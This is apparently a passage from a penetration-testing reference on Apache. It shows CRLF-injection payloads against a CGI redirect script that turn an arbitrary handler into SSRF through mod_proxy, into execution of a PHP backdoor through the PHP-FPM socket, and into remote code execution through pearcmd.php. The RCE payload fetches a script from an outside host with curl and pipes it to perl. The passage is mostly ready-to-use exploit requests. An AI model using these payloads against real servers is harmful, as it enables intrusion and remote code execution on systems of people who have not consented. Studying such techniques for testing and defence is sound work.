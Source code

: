 #### **Arbitrary Handler to Full SSRF**

Redirecting to `mod_proxy` to access any protocol on any URL:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:
http://example.com/%3F
 %0d%0a
%0d%0a
```

However, the `X-Forwarded-For` header is added preventing access to cloud metadata endpoints.

#### **Arbitrary Handler to Access Local Unix Domain Socket**

Access PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a
%0d%0a
```

#### **Arbitrary Handler to RCE**

The official [PHP Docker](https://hub.docker.com/_/php) image includes PEAR (`Pearcmd.php`), a command-line PHP package management tool, which can be abused to obtain RCE:

```
http://server/cgi-bin/redir.cgi?r=http://%0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}
orange.tw/x|perl
) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

Check [**Docker PHP LFI Summary**](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp), written by [Phith0n](https://x.com/phithon_xg) for the details of this technique.

# Apache



## Executable PHP extensions

Check which extensions is executing the Apache server. To search them you can execute:

```bash
 grep -R -B1 "httpd-php" /etc/apache2
```
